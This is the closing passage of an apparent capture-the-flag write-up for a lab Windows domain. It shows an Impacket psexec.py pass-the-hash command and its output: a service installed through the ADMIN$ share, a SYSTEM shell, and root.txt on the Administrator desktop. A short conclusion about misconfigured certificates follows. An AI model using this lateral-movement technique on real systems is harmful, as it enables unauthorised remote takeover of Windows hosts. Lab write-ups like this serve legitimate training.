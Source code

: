 ```
$ psexec.py -hashes hash:hash thm.local/BRADLEY_ORTIZ@THM.LOCAL
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on THM.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file tFgsvPDT.exe
[*] Opening SVCManager on THM.LOCAL.....
[*] Creating service DiNi on THM.LOCAL.....
[*] Starting service DiNi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4377]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

05/31/2023  08:18 AM    <DIR>          .
05/31/2023  08:18 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/31/2023  07:33 AM                29 root.txt
               3 File(s)          1,110 bytes
               2 Dir(s)  12,483,411,968 bytes free

C:\Users\Administrator\Desktop>
```

## Conclusion

Misconfigured/Vulnerable certificates are always something to check in CTFs, all in all the room was really nice.
